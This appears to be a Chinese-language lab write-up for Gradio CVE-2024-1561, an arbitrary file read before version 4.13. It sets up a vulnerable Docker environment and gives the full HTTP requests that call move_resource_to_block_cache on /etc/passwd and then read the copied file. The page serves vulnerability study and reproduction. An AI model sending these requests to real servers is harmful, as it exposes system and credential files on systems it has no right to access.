



Gradio 任意文件读取漏洞（CVE-2024-1561）¶
Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建Web界面。
在Gradio 4.13版本之前，component_server接口允许攻击者调用Component类的任意方法。攻击者可以利用move_resource_to_block_cache方法，将服务器上的任意文件复制到临时目录，并进一步读取其内容，从而实现任意文件读取。
参考链接：
环境启动¶
执行如下命令启动一个由Gradio 4.12.0编写的应用：
docker compose up -d
环境启动后，默认未开启身份验证。你可以通过http://your-ip:7860访问该应用。
漏洞复现¶
首先，访问/config接口，获取一个组件的id字段，例如3。
GET /config HTTP/1.1
Host: 127.0.0.1:7860

然后，利用move_resource_to_block_cache方法，将/etc/passwd文件写入临时目录，接口会返回临时文件路径。
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json
{
"component_id": "3",
"data": "/etc/passwd",
"fn_name": "move_resource_to_block_cache",
"session_hash": "aaaaaaaaaaa"
}

最后，通过file接口拼接返回的路径，即可读取文件内容。
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860

如果操作成功，即可看到/etc/passwd的内容，证明漏洞存在。